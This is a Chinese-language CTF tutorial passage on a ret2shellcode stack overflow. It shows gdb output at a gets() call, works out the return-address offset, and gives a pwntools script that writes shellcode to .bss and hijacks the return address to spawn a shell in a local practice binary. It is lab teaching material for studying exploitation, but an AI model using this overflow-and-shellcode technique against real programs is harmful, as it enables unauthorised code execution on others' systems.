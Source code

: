 ```
[-------------------------------------code-------------------------------------]
   0x8048587 <main+90>:	call   0x80483e0 <puts@plt>
   0x804858c <main+95>:	lea    eax,[esp+0x1c]
   0x8048590 <main+99>:	mov    DWORD PTR [esp],eax
=> 0x8048593 <main+102>:	call   0x80483d0 <gets@plt>
   0x8048598 <main+107>:	mov    DWORD PTR [esp+0x8],0x64
   0x80485a0 <main+115>:	lea    eax,[esp+0x1c]
   0x80485a4 <main+119>:	mov    DWORD PTR [esp+0x4],eax
   0x80485a8 <main+123>:	mov    DWORD PTR [esp],0x804a080
Guessed arguments:
arg[0]: 0xffffc99c --> 0xf7ffd000 --> 0x26f34
[------------------------------------stack-------------------------------------]
0000| 0xffffc980 --> 0xffffc99c --> 0xf7ffd000 --> 0x26f34
0004| 0xffffc984 --> 0x0
0008| 0xffffc988 --> 0x1
0012| 0xffffc98c --> 0x0
0016| 0xffffc990 --> 0x0
0020| 0xffffc994 --> 0xc30000
0024| 0xffffc998 --> 0x0
0028| 0xffffc99c --> 0xf7ffd000 --> 0x26f34
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048593 in main () at ret2shellcode.c:14
14	ret2shellcode.c: No such file or directory.
```

可以看到 esp 为 0xffffc980，ebp 为0xffffca08，同时 v4 相对于 esp 的索引为 [esp+0x1c]，所以，v4 的地址为 0xffffc99c，所以 s 相对于 ebp 的偏移为 0x6C，所以相对于返回地址的偏移为 0x6c+4。

## 劫持ret的地址
这次我们想要程序执行shellcode，那么我们可以把shellcode放在任何可执行的位置，比如buf2或栈上，位置的地址就是我们需要覆盖ret_addr的值

## pwn测试
控制程序执行bss段的shellcode
```
from pwn import *

p = process('./ret2shellcode')

ret_addr = 0x0804A080
offset = 0x6c + 4

shellcode = asm(shellcraft.i386.linux.sh())
payload = shellcode.ljust(offset,'a') + p32(ret_addr)
#payload = shellcode + 'a'*(offset - len(shellcode)) + p32(ret_addr)

p.sendline(payload)
p.interactive()
```
